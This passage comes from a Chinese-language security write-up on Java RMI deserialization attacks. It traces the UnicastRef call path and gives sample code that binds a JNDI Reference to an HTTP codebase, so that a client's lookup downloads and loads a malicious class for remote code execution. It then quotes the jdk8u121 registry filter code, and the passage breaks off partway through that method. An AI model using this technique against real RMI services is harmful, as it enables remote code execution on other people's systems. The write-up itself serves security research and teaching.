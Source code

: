 ```java
invoke:152, UnicastRef (sun.rmi.server)
invokeRemoteMethod:227, RemoteObjectInvocationHandler (java.rmi.server)
invoke:179, RemoteObjectInvocationHandler (java.rmi.server)
sayHello:-1, $Proxy0 (com.sun.proxy)
main:18, RMIClient (com.threedr3am.bug.rmi.client)
```

而在`UnicastRef`的`invoke`方法中，可以发现，对于远程调用的传参，实际上客户端会把参数进行序列化然后再传输到服务端，代码位于`sun.rmi.server.UnicastRef::marshalValue`

对于远程调用的结果，服务端返回的数据，客户端会对其进行反序列化，代码位于`sun.rmi.server.UnicastRef#unmarshalValue`。

在这里，实际就可以将序列化数据换成恶意序列化数据，就可以攻击服务端，同样服务端也可以攻击客户端。

但是想要利用反序列化进行攻击，那么就得有一个可以用的`gadget`。

在目标系统没有存在可用的`gadget`时，我们就可以使用`Reference`对象去进行攻击。

样例代码：

```java
Registry registry = LocateRegistry.getRegistry(1099);
//TODO 把resources下的Calc.class 或者 自定义修改编译后target目录下的Calc.class 拷贝到下面代码所示http://host:port的web服务器根目录即可
Reference reference = new Reference("Calc","Calc","http://localhost/");
ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
registry.bind("Calc",referenceWrapper);
```

这样客户端在Lookup时就会下载恶意Class并且loadClass加载恶意Class从而RCE。

### JDK == jdk8u121

在jdk8u121的时候，加入了反序列化白名单的机制，导致了几乎全部gadget都不能被反序列化了。

过滤的代码(RegistryImpl)如下：

```java
private static Status registryFilter(FilterInfo var0) {
    if (registryFilter != null) {
      Status var1 = registryFilter.checkInput(var0);
      if (var1 != Status.UNDECIDED) {
        return var1;
      }
    }

    if (var0.depth() > (long)REGISTRY_MAX_DEPTH) {
      return Status.REJECTED;
    } else {
      Class var2 = var0.serialClass();
      if (var2 == null) {
        return Status.UNDECIDED;
      } else {
        if (var2.isArray()) {
          if (var0.arrayLength() >= 0L && var0.arrayLength() > (long)REGISTRY_MAX_ARRAY_SIZE) {
            return Status.REJECTED;
          }

          do {
            var2 = var2.getComponentType();
          } while(var2.isArray());
        }

        if (var2.isPrimitive()) {
          return Status.ALLOWED;
        } else {
```